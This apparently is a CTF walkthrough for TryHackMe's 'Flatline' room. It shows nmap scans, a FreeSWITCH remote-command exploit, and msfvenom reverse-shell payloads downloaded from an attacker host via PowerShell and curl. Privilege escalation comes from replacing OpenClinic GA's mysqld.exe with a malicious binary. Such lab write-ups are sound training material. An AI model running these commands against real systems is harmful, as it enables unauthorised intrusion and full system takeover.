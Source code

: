```yaml
---
layout: post
title: Walkthrough - Flatline
published: true
---
```


Tags: Security, RCE, Broken Permissions.
Description: How low are your morals?
Difficulty: Easy
URL: [https://tryhackme.com/room/flatline](https://tryhackme.com/room/flatline)

* * *

## Notes

- `nmap -Pn -sS -T4 -p- 10.10.71.193 -vvv`

```
PORT     STATE SERVICE       REASON                                                                                          
3389/tcp open  ms-wbt-server syn-ack ttl                                                
8021/tcp open  ftp-proxy     syn-ack ttl 125 
```

- `sudo nmap -sC -sV -Pn -sS -O 10.10.71.193 -p3389,8021`

```
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-25T13:37:09+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2022-08-24T13:29:23
|_Not valid after:  2023-02-23T13:29:23
|_ssl-date: 2022-08-25T13:37:11+00:00; 0s from scanner time.
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```

searching exploitdb we find a freeswitch exploit that works.

- `python3 freeswitch-exploit.py 10.10.71.193 systeminfo`

Now we can create a payload for the target system `msfvenom -p windows/shell_reverse_tcp LHOST=10.2.127.225 LPORT=6666 -f exe > shell.exe`

- start simple webserver `python3 -m http.server 80` and start listener `rlwrap nc -nvlp 6666`
- upload and start shell `python3 freeswitch-exploit.py 10.10.71.193 "powershell.exe Invoke-WebRequest -Uri http://10.2.127.225/shell.exe -OutFile ./shell.exe && .\shell.exe"`

![](/assets/flatline01.png)

* * * 

## What is the content of user.txt?

![](/assets/flatline02.png)

* * * 

## What is the content of root.txt?

We find OpenClinic GA on the system `searchsploit -m windows/local/50448.txt`. This escalation works by letting a low privilege account being able to rename lysqld or tomcat8.exe files located in bin folders and replacing with a malicious file that can connect back to due the service running as local system. we will try replacing the exe here `\mariadb\bin\mysqld.exe`. 

1. Generate malicious .exe on attacking machine
    `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.102 LPORT=4242 -f exe > /var/www/html/mysqld_evil.exe`

2. Setup listener and ensure apache is running on attacking machine
    `nc -lvp 4242`
    

3. Download malicious .exe on victim machine
    type on cmd: `curl http://192.168.1.102/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"`

4. Overwrite file and copy malicious .exe.
    `Renename C:\projects\openclinic\mariadb\bin\mysqld.exe > mysqld.bak`
    `Rename downloaded 'mysqld_evil.exe' file in mysqld.exe`

5. Restart service

6. Reverse Shell on attacking machine opens

![](/assets/flatline03.png)

* * * 

